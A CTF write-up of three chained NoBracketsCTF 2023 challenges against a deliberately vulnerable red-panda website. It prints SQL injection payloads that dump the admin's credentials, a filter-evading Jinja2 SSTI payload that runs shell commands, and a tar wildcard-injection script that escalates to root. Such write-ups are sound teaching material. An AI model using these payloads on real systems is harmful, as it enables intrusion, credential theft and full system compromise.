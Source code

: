 ```yaml
---
author: Drahoxx
title: NoBracketsCTF 2023 -- Born To Be
description: This write-up is from 3 web/system challenges from the NoBracketsCTF 2023.
slug: born-to-be-web
date: 2024-08-25 00:00:00+0000
image: assets/born-to-be.jpg
categories:
    - Web
tags:
    - NoBrackets
    - CTF
    - WriteUp
    - Web
    - System
---
```


# NoBrackets2023 -- Born To be
NoBracketsCTF is a CTF for high-schoolers, this challenge was part of the finale.

The challenge is open-source: https://github.com/nobrackets-ctf/NoBracketsCTF-2023/tree/main/finale/Web/BornToBeAdmin/infra

Just run `./run.sh` and visit http://localhost:5000/ to access the challenge.

## Born To be admin 1/3

**Description:**
```
Do you like red-pandas? I love 'em!

Your goal is to become administrator of the website.

Author: [Drahoxx](https://twitter.com/50mgDrahoxx)
```

The first vulnerability is an SQLi in the search bar. Which means we will be able to leak data using the search bar.
We will try to uncover the admin's credentials.

![First look](assets/first_look.png)

![login](assets/login.png)


### Get tables and collums name
#### Table name
We can use Payload All the Things to help us :
Under `Sqlite` > `Integer/String based - Extract table name` we can find the following [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#integerstring-based---extract-table-name) :

`SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'`

Which we arrange into :
`aaaaa' UNION SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -`

We get : `users,data`

#### Collumns name
As we know there is a `users` table, we can try and leak the [collumns names](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#integerstring-based---extract-column-name):
`aaaaaa' UNION SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'-- -`

We get : `CREATE TABLE users ( id INTEGER PRIMARY KEY AUTOINCREMENT, username VARCHAR(100) NOT NULL, password VARCHAR(100) NOT NULL, is_admin BOOLEAN NOT NULL DEFAULT 0 )`

So the table looks like : | id (int) | username (str) | password (str) | is_admin (bool) |

We can start uncovering the admin's credentials

### Get admin's username
`' UNION SELECT username FROM users WHERE is_admin=true-- -`

You get : `redpanda-master`

### Get user's password
`' UNION SELECT password FROM users WHERE is_admin=true-- -`

![password](assets/password.png)


You get : `61983636aae8819f9a94b39bd0e6219d2212f0bcc37bb11032b559d6df26b07f`
Which is part of rockyou and can be cracked using https://crackstation.net/
The password is `redpandas4ever`

### Login to the admin's account
We use the login form to login :
`redpanda-master`
`redpandas4ever`

![password](assets/admin.png)


> NBCTF{Y0u're_Th3_TrU3_redpanda-master_You've_Been_B0rn_T0_B3_An_Adm1n}

## Born to be user 2/3

**Description:**
```
You became admin of the website. Now is time to become user again!

RCE and read content of `flag.txt`.

Author: [Drahoxx](https://twitter.com/50mgDrahoxx)
```

In this part the vulnerability is an ssti on the admin panel, the goal is to get a shell or at least RCE.

### Discovering the SSTI
When inputing `{{7*7}}` in the text box, we get the following result : `Hello, redpanda-master. You searched for the username 49, here is your results :`

We can see the 49, so our ssti is working, let's exploit it.

![password](assets/simple-ssti.png)


### Filters
There is two small filters on this ssti : `'`, `.` and `_` are banned.
We can see it when inputing `.`, we get : `Error : . _ and ' are filtered to avoid interfering with sql.`

### Exploit
We can use payload all the things once again to start our payload : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-ospopenread

We will use podalirius' payload because it's the shortest :
`{{ lipsum.__globals__["os"].popen('id').read() }}`

We can see there is `.`, `'` and `_` in the payload we got to remove :

1. Removing '
	We can use double quote (") instead of single ones (')
2. Removing .
	We can use `|attr()` instead of `.` in jinja2
3. Removing _
	We can encode `_` in `\x5f`
4. Removing [ because it doesnt work with attr
	We can use the function `get` instead

Final payload : `{{lipsum|attr("\x5f\x5fglobals\x5f\x5f")|attr("get")("os")|attr("popen")("cat flag\x2etxt")|attr("read")()}}`

![password](assets/nice-ssti.png)

> NBCTF{Fr0m_Adm1n_0n_W3bSite_T0_Us3r_0n_S3rver_SSTIs_are_FUN!}

## Born To be Root 3/3

**Description:**
```
Wp RCE! Now is time to become root.

Flag is located in `/root`.

Author: [Drahoxx](https://twitter.com/50mgDrahoxx)
```

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/tar-wildcard-injection-privesc/

```sh
echo -e \"#!/bin/bash\\ncat /root/* > result\" > shell\x2esh
echo \"\" > \"--checkpoint-action=exec=sh shell\x2esh\"
echo \"\" > --checkpoint=1
## Wait one minute
ls -la
## If there is result, you can cat it.
cat result
```
We get `NBCTF{You&#39;ve_Really_Becomed_Th3_R3d_Panda_And_Red_Team_Master!}` which translates to:

> NBCTF{You've_Really_Becomed_Th3_R3d_Panda_And_Red_Team_Master!}

